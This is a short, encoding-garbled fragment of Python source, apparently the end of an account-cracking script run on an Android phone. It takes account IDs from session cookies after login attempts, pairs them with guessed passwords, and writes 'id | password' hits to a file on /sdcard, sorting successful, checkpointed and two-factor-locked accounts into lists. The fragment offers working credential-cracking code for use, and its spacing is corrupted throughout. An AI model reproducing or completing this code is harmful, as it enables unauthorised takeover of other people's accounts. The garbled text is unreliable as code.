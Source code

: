  Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â coki=";".join([key+"="+valueÂ forÂ key,valueÂ inÂ session.cookies.get_dict().items()]) 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â cid=coki[7:22] 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â RedÂ =Â '\033[1;31m' 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â print(f'\r{YELLOW}[TEMP-LOCK]Â '+cid+'Â |Â '+ps+'\033[1;97m') 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â open('/sdcard/Jadugar-2F.txt',Â 'a').write(cid+'Â |Â '+ps+'\n') 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â twf.append(cid) 
 Â Â Â Â Â Â Â Â Â Â Â Â else: 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â continue 
 Â Â Â Â Â Â Â Â loop+=1 
 Â Â Â Â Â Â Â Â checks(oks,cps,twf) 
 Â Â Â Â except: 
 Â Â Â Â Â Â Â Â pass 
  
 Â Â Â Â Â Â Â Â  
 Â  
 ifÂ __name__Â ==Â '__main__': 
 Â Â Â Â xyz()# utpal.py
